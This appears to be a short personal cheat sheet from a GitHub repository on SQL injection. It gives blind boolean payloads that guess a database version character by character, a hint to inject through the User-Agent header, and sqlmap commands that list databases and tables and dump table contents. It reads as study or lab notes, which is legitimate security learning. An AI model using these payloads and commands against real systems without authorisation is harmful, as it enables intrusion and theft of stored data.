






## BurpSuite:

URL-Encode the payload:

Copy payload to file **payload.txt** and check with **sqlmap**:

`sqlmap -r payload.txt`

**Check next payload**:

**Think OUTSIDE THE BOX!:**
Maybe it's processing User-Agent?

Now try to find version 1 step at a time
***SUBSTRING(string, start, length)***

`' and substring((Version()), 1, 1) = '7'#`
if no match, try next number
`' and substring((Version()), 1, 1) = '8'#`
if match, move to next integer 
`' and substring((Version()), 2, 1) = '.'#`
`' and substring((Version()), 3, 1) = '0'#`
eg **8.0.1**
`' and substring((Version()), 1, 5) = '8.0.1'#`

## sqlmap
Use to check for injection vulnerabilities and dump sql data

1. Find list of databases:
`sqlmap -r payload.txt --level=2 -dbs`  
2. Find tables in selected database
`sqlmap -r payload.txt --level=2 -D <database> -tables` 
3. Scan selected table
`sqlmap -r payload.txt --level=2 -D <database> -T <table> -a`

